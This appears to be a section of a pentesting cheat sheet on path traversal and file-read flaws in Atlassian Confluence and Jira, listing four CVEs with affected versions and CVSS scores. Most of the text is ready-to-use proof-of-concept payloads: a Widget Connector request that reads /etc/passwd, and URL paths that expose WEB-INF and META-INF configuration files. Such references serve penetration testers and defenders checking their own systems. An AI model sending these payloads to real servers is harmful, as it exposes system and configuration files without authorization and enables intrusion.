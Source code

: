 ***

#### Path Traversal / File Read / File Include <a href="#path-traversal-file-read-file-include" id="path-traversal-file-read-file-include"></a>

**CVE-2019-3396**

**Version**: `< 6.6.12`, `6.7.0 <= x < 6.12.3`, `6.13.0 <= x < 6.13.3`, `6.14.0 <= x < 6.14.2` (The Widget Connector macro in Atlassian Confluence Server) **CVSS 3.x**: `9.8 CRITICAL AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H` **Privileges Required**: `None` **POC**:

Copy

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: JIRA
...

{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler(.)com/v/23464dc5","width":"1000","height":"1000","_template":"file:///etc/passwd"},"body":""}}
```

**CVE-2020-29453**

**Version**: `< 8.5.11`, `8.6.0 <= x < 8.13.3`, `8.14.0 <= x < 8.15.0` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/s/1xqVb9EKKmXG4pzui1gHeg0yrna/_/%2e/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml`

**CVE-2021-26086**

**Version**: `< 8.5.14`, `8.6.0 <= x < 8.13.6`, `8.14.0 <= x < 8.16.1` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**:

Copy

```
/_/;/WEB-INF/web.xml
/_/;/WEB-INF/decorators.xml
/_/;/WEB-INF/classes/seraph-config.xml
/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
/_/%3B/WEB-INF/web.xml
/_/%3B/WEB-INF/decorators.xml
/_/%3B/WEB-INF/classes/seraph-config.xml
/_/%3B/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
/_/%3B/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
/_/%3B/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/_/%3B/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```

**CVE-2019-8442**

**Version**: `< 7.13.4`, `8.0.0 <= x < 8.0.4`, `8.1.0 <= x < 8.1.1` (Jira version) **CVSS 3.x**: `7.5 HIGH AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` **Privileges Required**: `None` **POC**: `/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml`
